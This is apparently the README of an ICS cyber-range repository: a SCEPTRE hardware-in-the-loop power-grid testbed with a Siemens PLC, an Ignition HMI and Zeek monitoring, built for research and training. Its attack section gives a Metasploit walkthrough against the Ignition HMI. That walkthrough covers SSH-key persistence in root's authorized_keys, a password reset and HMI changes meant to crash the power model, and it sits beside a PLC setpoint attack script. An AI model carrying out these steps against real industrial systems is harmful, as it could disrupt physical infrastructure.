




This repository contains a topology to demonstrate the Hardware-In-the-Loop (HIL) capabilities of SCEPTRE. The topology is based on the original SOAP (SCEPTRE on a Platter) topology and underlying power model, simulated using PyPower. It includes the integration of a Siemens S7 PLC as HIL, functioning as a simple controller in the power model. _This topology also still fully functions without HIL and can be used by selecting a second, "virtual-only" control screen that is already included in the HMI configuration._

In addition to the topology, this repo includes a demo attack against the PLC to manipulate and destablize the power system model. Finally, a SCORCH pipeline is included in the scenario which can be used to capture raw PCAP to exportable files, and packet metadata (via filebeat and [Zeek](zeek.org)) to an elastic instance.


# Getting Started
Most of the software components of this SCEPTRE topology are contained in this repository, so `git clone` is sufficient to get them. The file paths in the instructions and in the topology file assume this folder is located at `/phenix/topologies/soap-hil`


## Hardware
The Siemens PLC can be purchased in a kit from [PLCCable.com](https://plccable.com/). 
[This kit](https://www.plccable.com/siemens-s7-1200-deluxe-plc-trainer-analog-no-software-ethernet-1215/) has the appropriate PLC and analog output modules. Please note that these instructions were made with the S7-1214 and the latest version of the kit uses an S7-1215, which may require some tweaking.  
You can also purchase the Siemens TIA software for programming the PLC [here](https://www.plccable.com/siemens-6es7822-0aa08-0ya5-tia-portal-s7-v18-basic-plc-programming-software/)

The LabJack T4 can be purchased directly from [the manufacturer](https://labjack.com/).
Here is a direct link: https://labjack.com/products/labjack-t4.

Since the LabJack can only drive digital outputs from 0-5V, a 12V relay is used to drive the PLC digital inputs.
A suitable relay can be purchased from Mouser [here](https://www.mouser.com/ProductDetail/Parallax/27115?qs=uPOdrd2%252BfdKcmDw43c3OZA%3D%3D).

Additionally, some wires will be needed to wire the LabJack to the PLC.
A wire kit can be found on Amazon.com [here](https://www.amazon.com/AWG-Stranded-Wire-Kit-Pre-Tinned/dp/B07T4SYVYG)

The following steps will setup the hardware correctly:

* Follow `WIRING.md` to setup the PLC and LabJack.
* Program the PLC with the project contained in the `satx-plc-program.zip` archive.
* Connect the Ethernet port on the PLC to the `eno4` interface of the SCEPTRE host.
    * Other interfaces will also work, but the `hil_network.sh` script will need to be modified accordingly.


## Phenix & Minimega
Follow the instructions at https://phenix.sceptre.dev/latest for installing `phenix`.
Additional documentation on using `phenix` can be found at https://sandialabs.github.io/sceptre-docs.


## Creating the SCEPTRE images.
Now that phenix & minimega are ready to go, it is time to prepare the Ignition, bennu, and soaptools VM images.

### Ignition
#### Getting Ignition
Grab the Ignition 8.0.6 Linux 64-bit zip from https://inductiveautomation.com/downloads/archive/8.0.6  


#### Base image
Load the image config from this repo with the following command

```bash
phenix config create /phenix/topologies/soap-hil/image-configs/Image-ignition.yml
```

Build the image with

```bash
phenix image build ignition -c -x -o /phenix/images
```

Install the miniccc binary and service in the image
```bash
# first, get the miniccc binary from the local minimega docker container
docker cp minimega:/opt/minimega/bin/miniccc /phenix/miniccc
phenix image inject-miniexe /phenix/miniccc /phenix/images/ignition.qc2
```

Copy the ignition installer to the new disk image
```bash
mm disk inject ignition.qc2 files <ignition_installer>:/root
```

Use the following to boot the image and connect to it with minimega:  
_note that this boots the image directly (no snapshots) so that we can install ignition persistently in the qc2_

```bash
#!/bin/bash

NAMESPACE=minimega
NAME=test
# used in order to do base image setup
# this makes changes persistent in the .qc2 image
SNAPSHOT=false
DISK=/phenix/images/ignition.qc2

# execute minimega commands inside the minimega container
MM="docker exec -it minimega mm -e namespace $NAMESPACE"


set -e
set -x
$MM namespace $NAMESPACE
$MM clear vm config
$MM vm config cpu host
$MM vm config memory 8192
$MM vm config net 500
$MM vm config vcpus 4
$MM vm config snapshot $SNAPSHOT
$MM vm config disk $DISK
$MM vm config qemu-append -vga qxl
$MM vm launch kvm $NAME
$MM vm start $NAME
```

Run the ignition installer in the VM in the `/root` directory, making sure to add the ignition install folder (typically `/usr/local/bin`) to `$PATH` for all users.
Additionally, open a web browser (in the virtual machine), navigate to localhost:8088 and download and install the Designer Launcher.

### Bennu
[Bennu](https://github.com/sandialabs/sceptre-bennu) is a modeling and simulation application for ICS/SCADA devices.
The instructions at [https://github.com/sandialabs/sceptre-phenix-images] are sufficient to build a vm image containing bennu.
That repository also has downloads available for pre-built bennu.qc2 images.
This image should be placed at `/phenix/images/bennu.qc2`

### Soaptools
The soaptools VM image is an ubuntu base image with additional tools installed:
 - wireshark
 - filebeat
 - zeek
 - msfconsole

First, load the image config from this repo with the following command

```bash
phenix config create /phenix/topologies/soap-hil/image-configs/Image-ubuntu-soaptools.yml
```

And build the image with
```bash
phenix image build ubuntu-soaptools -c -x -o /phenix/images
```
If you are behind a proxy and get ssl certificate verification errors while building, see the comments 
in the build scripts at `soap-hil/image-configs/Image-ubuntu-soaptools.yml` and update the scripts accordingly. 
If you need to make modifications, you can update the image specification with the commands below:
```bash
phenix image delete ubuntu-soaptools
phenix config create /phenix/topologies/soap-hil/image-configs/Image-ubuntu-soaptools.yml
```

Install the miniccc binary and service in the image
```bash
phenix image inject-miniexe /phenix/miniccc /phenix/images/ubuntu-soaptools.qc2
```


## Running the experiment

### HIL network setup
> _This step is not needed if your are running in virtual-only mode._

After completing all other steps, enter the topology directory and run `./expctl hil-network`.
This will setup minimega and the host so that the hardware can connect to the experiment.   
_Note that you will need to update the interface name in this script to match the interface on your physical host where the PLC is connected._

### Netmonitor VM with Zeek
The netmonitor VM (based on ubuntu-soaptools) is what allows us to ingest all experiment traffic and route it into an elastic stack.  
To configure, edit the netmonitor configs to meet your environment:  
- `/phenix/topologies/soap-hil/injects/netmonitor/filebeat_zeek_module.yml` shouldn't require any changes with the base install script  
- `/phenix/topologies/soap-hil/injects/netmonitor/zeek_node.cfg` may require that you edit the interface that zeek is listening on, this should be the interface that is the monitoring destination in the `monitor` app in the scenario (typically `eth1` in the VM)
- `/phenix/topologies/soap-hil/injects/netmonitor/filebeat.yml` will require elasticsearch and kibana node configuration for ingestion. Update the elastic and kibana IPs in this config file to point to your server. Due to the tap interface configured in the scenario file, the VMs should be able to reach elastic and kibana running outside of the experiment network, such as an instance running on the host machine  

Note: The ```filebeat -e setup``` command sometimes stalls in the scorch run (below). If this is the case, cancel the scorch run and run it manually on the VM. 

### `expctl`
The `expctl` script provides helper functions for starting and stopping the experiment, as well as refreshing when modified and adding a network tap to the host.
To start the experiment, run `./expctl start`, which will also refresh the experiment if it is already started.
To stop the experiment, run `./expctl stop`.
To create a network tap on the host that is connected to the experiment network, run `./expctl tap`.


### Is it working?
To make sure everything is working properly, enter the `ignition` machine and open the `Designer Launcher` application.
Login with the username/password chosen when installing Ignition, open the `satx` project, and open the `Main Window` view.  
(If you are running without HIL, use the `soap-virt` view.)
Make this window fullscreen by pressing `F11` (You may need to enter the username/password again).

You should see a screen that looks like this:


Then run the attack(s) as described below.
The output of the attack should be similar to what is seen in the following image


Navigate back to `ignition`.
The screen should now look like this:


### Running an attack scenario
A sample 'attack' that changes setpoints on the Siemens PLC is implemented in the `plc-attack.py` script injected into the `attacker` machine.
After launching the experiment, enter the `attacker` machine and navigate to `/phenix/`.
The script is runnable with
```bash
python3 plc-attack.py <STARTUP_DELAY_SECONDS> <NUMBER_REPEATS>
```

### Running an attack scenario in virtual-only mode
A sample 'attack' is implemented through a few means to demonstrate SCEPTRE without a Hardware-In-The-Loop implementation.
1. After launching the experiment, enter the `attacker` machine and launch `msfconsole`
   * Start by finding the applicable exploit `search ignition`
   * Select the first exploit `use 3`
   * Set the required options, the RHOSTS, LHOST, and PythonPath
       ```bash
       set RHOSTS 10.117.4.70
       set LHOST 10.117.4.169
       set PythonPath python3
       ```
   * Run the exploit `exploit`
2. Add ssh keys to maintain persistence
   * On your host machine `ssh-keygen` to generate a new ssh key
   * In your metasploit session use `echo '[SSH-KEY]' > /root/.ssh/authorized_keys (you may need to create the .ssh directory)
3. Use port forwarding to get ignition designer
   * Use SSH to open a tunnel to the ignition machine `ssh root@10.117.4.70 -L 9999:localhost:8088`
   * Download the ignition designer from localhost:9999
4. Use your SSH session to restart the ignition password
   * On the ssh session `gwcmd --passwd` and reset the gateway `gwcmd -r`
   * Refresh your ignition webpage to reset the admin password
5. Connect to iginition HMI
   * Log in to the Ignition Designer application
   * Open the soap_hil-virt HMI
   * Change random settings on the HMI to crash the Power system


### Scorch Test
To  make sure that all images and scorch components are properly installed, navigate to the scorch page on phenix.
Start the scorch scenario, when it has pasued start up the ignition HMI and make sure data is ingesting into the HMI properly.
Enter the `exp-break` scorch component, and exit out of the terminal to continue the scorch deployment.
Check your elasticstack deployment to validate that zeek is ingesting packets properly.

## Scorch run example
1. When you are ready to begin an attack run, go to the Scorch tab for this experiment and click the red `Stopped` button to start a new run:
    
2. The Scorch pipeline should execute until you get to the `exp-break` breakpoint:
    
3. At this point you can execute one of the sample attacks described above.
4. When finished, open the `exp-break` breakpoint and exit the terminal to allow the pipeline to continue:

    
5. At this point the pipeline should complete and you can go back to `Files` tab of the main experiment page to view and download artifacts from the Scorch run:
    
6. If you have configured Elasticsearch/kibana, you can also view the captured packet metadata through the Kibana interface:
    


## Network Diagram
Here's a nice diagram of the machines in the experiment:



The yellow cloud is the EXP VLAN, and machines inside the cloud have their ipv4 addresses displayed.
Machines outside the cloud are not connected to the EXP VLAN, and communicate with the others over the MGMT VLAN instead.
The MGMT VLAN is not shown, but machine addresses can be seen in the `topology.yaml` file.

> This material is based upon work supported by the Department of Energy National Nuclear Security Administration (NNSA) Minority Serving Institution Partnership Program ([MSIPP](https://www.energy.gov/nnsa/nnsa-minority-serving-institution-partnership-program-msipp)) under award number 225221. 
 
>This material was prepared as an account of work sponsored by an agency of the United States Government. Neither the United States Government nor any agency thereof, nor any of their employees, makes any warranty, express or implied, or assumes any legal liability or responsibility for the accuracy, completeness, or usefulness of any information, apparatus, product, or process disclosed, or represents that its use would not infringe privately owned rights. Reference herein to any specific commercial product, process, or service by trade name, trademark, manufacturer, or otherwise does not necessarily constitute or imply its endorsement, recommendation, or favoring by the United States Government or any agency thereof. The views and opinions of authors expressed herein do not necessarily state or reflect those of the United States Government or any agency thereof."
